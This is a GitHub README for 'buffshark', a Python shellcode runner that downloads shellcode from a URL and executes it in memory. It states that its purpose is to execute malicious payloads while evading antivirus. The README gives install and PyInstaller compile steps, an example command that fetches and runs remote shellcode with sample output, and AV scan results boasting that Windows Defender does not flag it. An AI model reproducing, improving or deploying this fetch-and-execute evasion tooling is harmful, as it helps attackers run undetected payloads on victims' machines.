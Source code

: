 # buffshark-shellcode-runner

## Python Shellcode Runner to execute malicious payload and bypass AV
This script utilizes mmap(for linux) and win api wrappers (for windows) to execute shellcode in memory and bypass Windows Defender.

## Installation and Compiling
1. Download the repo: `git clone https://github.com/momo1239/buffshark-shellcode-runner`
2. Move directory: `cd buffshark-shellcode-runner/`

```
└─# python3 buffshark.py -h                                       
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
usage: buffshark.py [-h] -u  -a

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -u , --url            URL to raw shellcode file
  -a , --architecture   Choose OS
  ```
                                     
4. Optional: Install pyinstaller to compile to windows executable: `pip install pyinstaller`
5. Optional: Compile: `pyinstaller -F buffshark.py`

## Usage
Example: `python3 buffshark.py -u http://127.0.0.1:8080/shellcode.bin -a [win/nix]`

```
==========================
Buff Shark Shellcode Runner
 Author: Momo Nguyen 
==========================
[+] Downloading shellcode...
[+] 49 Bytes Downloaded!
[+] Running shellcode in memory...
README.md  antiscan.PNG  antiscanres.PNG  buffshark.exe  buffshark.py  shell.bin  shellcode
```

## AV Scan
As of 11/22/2021, Windows Defender does not flag this shellcode runner.

1/26 AV has flagged buffshark on antiscan.me

![image](antiscanres.PNG)


![image](antiscan.PNG)
